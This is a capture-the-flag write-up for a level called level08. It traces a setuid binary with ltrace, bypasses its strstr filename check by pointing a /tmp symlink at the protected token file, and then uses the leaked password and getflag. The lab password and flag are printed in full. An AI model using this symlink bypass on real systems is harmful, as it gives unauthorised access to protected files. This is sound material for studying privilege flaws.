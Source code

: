 ## Level 08: Bypassing File Access Restrictions with Symlinks

### Goal
Bypass the filename check in the `level08` executable to gain access to the `token` file, which is restricted by permissions, using symbolic links.

### Steps

1. **File Inspection**  
   After logging in, two files are present: an executable named `level08` and a file named `token`.  
- Executing the binary using `./level08` results in:  
    ```bash
    ./level08 [file to read]
    ```
- Providing `token` as an argument returns:  
    ```bash
    ./level08 token
    You may not access 'token'
    ```
- Inspecting the contents of `token` using `cat token` results in a permission error:  
    ```bash
    cat token
    cat: token: Permission denied
    ```
- Checking file permissions using `ls -la level08 token` shows:  
	```bash
	-rwsr-s---+ 1 flag08 level08 8617 Mar  5  2016 level08
	-rw-------  1 flag08 flag08    26 Mar  5  2016 token
	```
	This reveals that `token` has strict permissions and is only readable/writable by the user `flag08`. However, the executable `level08` has the setuid (`s`) bit enabled, meaning it executes with the privileges of the file owner (`flag08`).

2. **Analyzing the Executable with ltrace**  
   To understand why `./level08 token` fails, `ltrace` is used to trace library calls:  
   ```bash
   ltrace -f ./level08 token
   ```
   Output:
    ```bash
    [pid 3033] __libc_start_main(0x8048554, 2, 0xbffff7d4, 0x80486b0, 0x8048720 <unfinished ...>
    [pid 3033] strstr("token", "token")                                          = "token"
    [pid 3033] printf("You may not access '%s'\n", "token"You may not access 'token'             )                      = 27
    [pid 3033] exit(1 <unfinished ...>
    [pid 3033] +++ exited (status 1) +++
    ```
	This shows that the program uses `strstr` to check if the filename contains the word `token`. If the word `token` is not present in the filename, the program attempts to open the file:
	```bash
    ltrace -f ./level08 test
    ```
    Output:
    ```bash
    [pid 3061] __libc_start_main(0x8048554, 2, 0xbffff7d4, 0x80486b0, 0x8048720 <unfinished ...>
    [pid 3061] strstr("test", "token")                                           = NULL
    [pid 3061] open("test", 0, 014435162522)                                     = -1
    [pid 3061] err(1, 0x80487b2, 0xbffff907, 0xb7fe765d, 0xb7e3ebaflevel08: Unable to open test: No such file or directory  <unfinished ...>
    [pid 3061] +++ exited (status 1) +++
    ```
	The program doesn't find the word `token` and attempts to open a non-existent file `test`.

3. **Exploiting the Vulnerability**  
	A `symbolic link` (symlink) can bypass the filename check.  
	Unlike a `hardlink`, which directly references the file's data and cannot span different filesystems, a symlink can link across different filesystem, making it more flexible for linking across varied file locations.
- To exploit this:
	```bash
    ln -s /home/user/level08/token /tmp/test
    ./level08 /tmp/test
    ```
	Ouput:
    ```bash
    quif5eloekouj29ke0vouxean 
    ```
	This command creates a symlink `/tmp/test` pointing to `/home/user/level08/token`.  
	Since the symlink doesn't contain the word token, it avoids the `strstr` check, allowing indirect access to the `token` file.

4. **Retrieve the flag**  
    To retrieve the flag, the session has to switch to user `flag08`:  
    
    ```bash 
    su flag08
    ```
    Output:
    ```bash
    Password: 
    ```
    The password  `quif5eloekouj29ke0vouxean` is entered and the session switches to flag08.  
    To retrieve the flag the command `getflag` is used:   
    Output:
    ```bash
    Check flag.Here is your token : 25749xKZ8L7DkSCwJkT9dyv6f
    ```